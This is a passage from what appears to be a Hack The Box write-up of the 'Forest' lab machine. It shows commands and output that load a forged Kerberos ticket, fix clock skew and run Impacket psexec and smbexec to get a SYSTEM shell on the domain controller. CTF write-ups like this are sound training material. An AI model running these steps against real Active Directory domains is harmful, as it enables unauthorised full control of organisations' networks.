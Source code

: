 ```bash
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in doesnotexist.ccache
$ export KRB5CCNAME=doesnotexist.ccache
# python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
$ psexec.py htb.local/amirr0r@$TARGET -k -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

This error indicates that we have to synchronise our localtime with the DC clock. We can use `ntpdate` to solve this issue.

```bash
$ ntpdate $TARGET
 6 Sep 18:04:19 ntpdate[6024]: step time server 10.10.10.161 offset +611.916121 sec
```

I also added `forest` to the `/etc/hosts` file :

```
10.10.10.161  htb.local forest
```

Then it worked:

```bash
$ psexec.py htb.local/doesnotexist@forest -k -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on forest.....
[*] Found writable share ADMIN$
[*] Uploading file lItXNAXI.exe
[*] Opening SVCManager on forest.....
[*] Creating service bnPS on forest.....
[*] Starting service bnPS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on forest.....
[*] Stopping service bnPS.....
[*] Removing service bnPS.....
[*] Removing file lItXNAXI.exe.....

# smbexec also works
smbexec.py htb.local/doesnotexist@forest -k -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```
